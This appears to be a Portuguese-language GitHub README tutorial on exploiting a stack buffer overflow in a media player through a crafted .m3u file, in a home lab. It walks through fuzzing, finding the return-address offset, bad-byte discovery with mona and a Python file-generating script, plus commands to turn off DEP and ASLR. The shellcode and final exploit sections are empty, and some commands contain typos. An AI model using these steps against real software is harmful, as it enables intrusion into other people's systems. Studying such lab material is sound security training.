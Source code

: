 # Vuln
buffer overflow.

Todos os testes foram realizados em ambiente próprio virtualizado.
Somente para fins educacionais!
1. Identificar a vulnerabilidade - OK
   
	1.1 - Black Box (fuzzing) - OK
   	1.2 - Reversing - OK

 
2. Verificar quantos bytes são necessários para chegar no RET.

Primeiros passos para depurar a aplicação vulnerável: através do dbg, executamos a aplicação e selecionamos o arquivo m3u modificado com 4000 chars. No entanto, ao executá-lo, ocorre uma exceção, conforme observado na imagem do x32 dbg.

![Screenshot from 2023-08-14 22-40-47](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/d17452de-47f3-4544-b07c-1b91799423c8)

   
	2.1 - https://wiremask.eu/tools/buffer-overflow-pattern-generator
 
 ![Screenshot from 2023-08-14 22-10-21](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/73ca66c2-014c-4731-9e24-222a1e3fccce)

	
	2.2 - Metasploit

![Screenshot from 2023-08-14 22-08-15](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/796abfe1-d62b-4160-83a4-11b7af56e7e3)

O pattern generator do msf foi usado para gerar 2000 bytes como exemplo de que pode ser feito por esta ferramenta:

![Screenshot from 2023-08-14 22-08-36](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/3693beaf-932c-40be-8b10-abe679643fdf)


O resultado a partir do EIP 0x68423768 mostrado na primeira imagem do debugger IDA pro, indica que precisamos de 1012 bytes para atingir o retorno, o mesmo resultado pode ser obtido pelo site buffer overflow pattern generator

![Screenshot from 2023-08-14 22-18-16](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/bd9738eb-d92f-4a6c-88c4-32417da27727)




	
3. Verificar "bad bytes" OK
. Usei o immunity debugger neste passo:

após realizar a instalação do immunity, realize a copia do arquivo mona.py para o diretorio C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
o script python está disponivel para download aqui no repositório.

abra o immunity, rode a aplicação vulneravél usada como exemplo aqui e digite { !mona bytearray } sem chaves, irá gerar um pattern de 00 a ff:

![Screenshot from 2023-08-15 23-20-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/961416e2-bfc4-4689-9414-9dbb28b8e5ba)

O codigo em python a seguir foi desenvolvido para gerar um exploit com os bad bytes mostrados no debugger

3.1

lixo = 'A' * 1012
ret = 'AAAA'
badbytes = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("xpl.m3u", "wb")

f.write(lixo+ret+badbytes)

f.close()


Rodamos o programa vuln com play 2x e abrimos nosso exploit, irá dar exceção e prossiga com Shit + f9
ECX, EBP e EIP será sobreescrito com 41414141,

![Screenshot from 2023-08-19 22-58-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/d9abb8ce-36ca-4115-8667-be7dbc14bf8d)


ESP estava em 0018E998, prossiga com o comando

!mona compare -f bytearray.bin -a 0018E998		//endereço entre as tags

![Screenshot from 2023-08-19 23-57-01](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/433f095a-8e8e-4142-a7a5-52e744fd3cb9)

o resultado informa que a corrupção ocorreu após 1 byte

inclusive podemos verificar na tabela que parou de funcionar no 0x00

![Screenshot from 2023-08-20 00-14-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/9c46d833-3842-4524-8f27-3de20372e6c7)

execute o comando:

mona! bytearray -cpb '\x00'

para gerar os badbytes sem x00, você pode copiar para o seu codigo python ou apenas deletar \x00 dos badbytes que já estão no seu codigo

![Screenshot from 2023-08-20 00-16-57](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/b9a4692d-d574-480b-90da-befba4a4fa8c)

após retirar o \x00, rode o programa novamente e use no reverse o novo arquivo gerado.

![Screenshot from 2023-08-22 21-23-43](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/4ca4de13-2b15-4e1f-bd92-c2f389245f58)

chegou no endereço com erro, rode o comando do mona compare novamente

!mona compare -f bytearray.bin -a < 0018E998 >		//endereço entre as tags

![Screenshot from 2023-08-22 21-27-21](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/44df17d8-1438-42eb-b78d-cdbeef2bf39c)

Desta vez a corrupção aconteceu após 8 bytes. Prosseguimos como da primeira vez, delete o byte que está negativo, desta vez o \x09.

!mona bytearray -cpb '\x00\x09'

altere o seu codigo python.

e assim em diante com os proximos que bytes que forem problemáticos, você os retira do seu exploit.

Quando receber a mensagem Unmodified, significa que todo o shellcode não foi modificado e você identificou todos os badbytes.

*-----BADBYTES-----*

\x00, \x09, \x0a, \x1a

*------------------*
3.2 


7. Criar shellcode sem os bad bytes

8. Verificar como chamar o shellcode

6.Exploit


Ps.: Desativar o DEP (Data Execution Prevention) e ASLR (Address Space Layout Randomization)

DEP: cli como admin e digite: bdcedit.exe /set {current} nx AlwaysOff

ASLR: abra o regedit e busca [HKLM\System\Current\CurrentControlSet\Control\Session Manager\Memory Management\]
cria um novo valor "DWORD" com nome "MoveImages" com valor 0



